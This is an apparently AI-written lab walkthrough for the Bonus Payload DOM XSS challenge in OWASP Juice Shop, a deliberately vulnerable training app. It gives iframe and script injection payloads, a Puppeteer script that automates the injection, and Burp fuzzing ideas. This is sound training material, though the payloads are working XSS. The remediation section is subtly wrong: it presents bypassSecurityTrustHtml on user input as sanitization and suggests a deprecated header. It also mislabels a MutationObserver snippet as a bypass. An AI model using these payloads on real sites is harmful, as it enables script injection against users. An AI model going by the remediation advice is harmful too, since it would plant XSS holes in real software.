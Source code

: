 ✅ TODO – Method 1: UI Search Bar Injection
DOM-Based XSS – Bonus Payload Execution via Search Input
🧭 Objective
Trigger OWASP Juice Shop’s Bonus Payload challenge by injecting a malicious <iframe> into the UI search bar, which is vulnerable to client-side DOM injection due to unsanitized rendering. This showcases exploitation via DOM sinks without server interaction.

✅ Manual Exploitation Steps
🔹 1. Start OWASP Juice Shop Container
bash
Copy
Edit
docker run --rm -p 3000:3000 bkimminich/juice-shop
--rm: Removes container after it stops

-p 3000:3000: Maps app to localhost:3000

🧠 Expected Output:

nginx
Copy
Edit
Listening on port 3000
🔧 Troubleshooting:

If port already in use: Run lsof -i :3000 and kill <PID>

🔹 2. Access the Application
Open:

arduino
Copy
Edit
http://localhost:3000
Ensure that the page loads successfully and Juice Shop is active.

🔹 3. Activate the Search Bar
Click 🔍 icon (top-right navigation bar)

Do NOT hit Enter yet

🔹 4. Inject the Payload into Search Field
Paste:

html
Copy
Edit
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay"
src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076"></iframe>
⚠️ Must be one line, without whitespace corruption.

%3A is URL encoding for :

Press Enter.

🔹 5. Expected Behavior
The injected iframe should render a working SoundCloud Player.

Juice Shop will automatically recognize this and mark the Bonus Payload challenge as completed.

Verify in /#/score-board.

🧪 Payload Variations
🔸 Raw iFrame (Unencoded)
html
Copy
Edit
<iframe src="https://w.soundcloud.com/player/?url=https://api.soundcloud.com/tracks/771984076"></iframe>
🔸 HTML-Encoded Entity Variant
html
Copy
Edit
&lt;iframe src="https://w.soundcloud.com/player/?url=https://api.soundcloud.com/tracks/771984076"&gt;&lt;/iframe&gt;
🔸 Script-based DOM Injection (Advanced)
javascript
Copy
Edit
<script>
document.write('<iframe src="https://w.soundcloud.com/player/?url=https://api.soundcloud.com/tracks/771984076"></iframe>')
</script>
🔸 DOM Mutation Observer Bypass (for triggering render callbacks)
javascript
Copy
Edit
new MutationObserver(() => alert("DOM Updated"))
.observe(document.body, { childList: true, subtree: true });
📸 POC Documentation Tasks
Capture screenshot after payload renders the SoundCloud iframe.

Store at:

bash
Copy
Edit
/poc/ui-search-bar-bonus-payload.png
Use DevTools → Elements tab to verify injection:

html
Copy
Edit
<body>
  ...
  <iframe src="https://w.soundcloud.com/player/?url=https://api.soundcloud.com/tracks/771984076"></iframe>
</body>
🧰 Automation Ideas
🧪 Burp Suite
Repeater: Send repeatable payloads to the /search parameter

Intruder: Fuzz search parameter with multiple HTML injection payloads

Logger++: Capture reflected responses and XSS rendering

DOM Invader: Map sinks like innerHTML and test for unsafe insertions

🤖 Puppeteer Script
Create an automated headless PoC test:

javascript
Copy
Edit
const puppeteer = require('puppeteer');
(async () => {
  const browser = await puppeteer.launch({headless: false});
  const page = await browser.newPage();
  await page.goto('http://localhost:3000');
  await page.click('.mat-search_icon-search'); // search icon
  await page.type('input[aria-label="Search"]', '<iframe src="https://w.soundcloud.com/player/?url=https://api.soundcloud.com/tracks/771984076"></iframe>');
  await page.keyboard.press('Enter');
  await page.screenshot({ path: 'poc/ui-search-injection.png' });
})();
🔐 Remediation Recommendations
🔸 Escape User Inputs
Never inject raw user input via innerHTML.

Use .textContent or .innerText for safe rendering.

🔸 Angular Best Practice
Enforce use of DomSanitizer for any dynamic HTML content:

ts
Copy
Edit
this.safeHtml = this.sanitizer.bypassSecurityTrustHtml(userInput);
🔸 Content Security Policy (CSP)
Apply strict CSP headers:

http
Copy
Edit
Content-Security-Policy: default-src 'self'; frame-src 'none'; script-src 'self';
🔸 Additional Protections
Enable HTTP-only cookies

Set X-XSS-Protection: 1; mode=block

Enable Angular’s built-in sanitization with SecurityContext.HTML

🎯 Conclusion
This method exemplifies how client-side rendering vulnerabilities in Angular-based SPAs can be abused without interacting with the server. DOM-based XSS remains dangerous due to its silent nature, ability to bypass backend filters, and render trusted third-party content like SoundCloud iframes.

Use this as a template for further fuzzing, secure code training, and real-world exploitation validation. Let me know if you'd like this exported as a Markdown README.md or for CI/CD-based test scripting.

